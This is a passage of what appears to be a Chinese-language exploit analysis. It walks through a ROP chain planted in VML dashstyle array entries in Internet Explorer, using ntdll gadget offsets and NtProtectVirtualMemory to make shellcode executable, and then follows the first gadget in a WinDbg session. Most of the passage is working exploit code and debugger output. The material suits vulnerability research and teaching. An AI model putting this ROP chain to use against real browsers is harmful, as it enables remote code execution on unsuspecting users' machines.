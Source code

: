 	vml1.dashstyle.array.item( 9) = ntdllbase+Number(0x47643); //pop edi # ret

	vml1.dashstyle.array.item(10) = ntdllbase+Number(0x45f18);
	//NtProtectVirtualMemory

	vml1.dashstyle.array.item(11) = ntdllbase+Number(0xc71ef); //pop esi # ret

	vml1.dashstyle.array.item(12) = shellcodeaddr;

	vml1.dashstyle.array.item(13) = ntdllbase+Number(0xcb72a); //pop ebp # ret

	vml1.dashstyle.array.item(14) = 0-1; // -1

	vml1.dashstyle.array.item(15) = ntdllbase+Number(0x348b9); //pop ebx # ret

	vml1.dashstyle.array.item(16) = rop_addr+12; //ptr RegionSize

	vml1.dashstyle.array.item(17) = ntdllbase+Number(0x9a30c); //pop eax # ret

	vml1.dashstyle.array.item(18) = 0-96601473;

	vml1.dashstyle.array.item(19) = ntdllbase+Number(0x3ab39); //add eax,5C205C1h #
	ret

	vml1.dashstyle.array.item(20) = ntdllbase+Number(0x36d70); //xchg eax,edx # ret

	vml1.dashstyle.array.item(21) = ntdllbase+Number(0xcd241); //pop ecx # ret

	vml1.dashstyle.array.item(22) = rop_addr; //ptr to OldAccessProtection

	vml1.dashstyle.array.item(23) = ntdllbase+Number(0x227c4); //pushad # ret

	vml1.dashstyle.array.item(24) = shellcodeaddr;

	vml1.dashstyle.array.item(25) = Number(0x10400);

	vml1.dashstyle.array.item(26) = shellcodeaddr;

因为rop_addr是动态变化的，无法准确定位，所以我定在了后面的第一句pop
edi，它的地址是ntdll的基址+0x47643=0x77660000+0x47643，我们在这里下硬件访问断点。

	0:015> ba e1 776a7643

	0:015> bl

	0 e Disable Clear 776a7643 e 1 0001 (0001) 0:**** ntdll!strstr+0x84

	0:015> g

	ModLoad: 6be40000 6bef2000 C:WindowsSystem32jscript.dll

	Breakpoint 0 hit

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	eax=00000089 ebx=00000001 ecx=0480125c edx=0000008a esi=0480125c edi=05a7f5b8

	eip=776a7643 esp=05ac92a8 ebp=0249cf8c iopl=0 nv up ei pl nz na po nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202

	ntdll!strstr+0x84:

	776a7643 5f pop edi

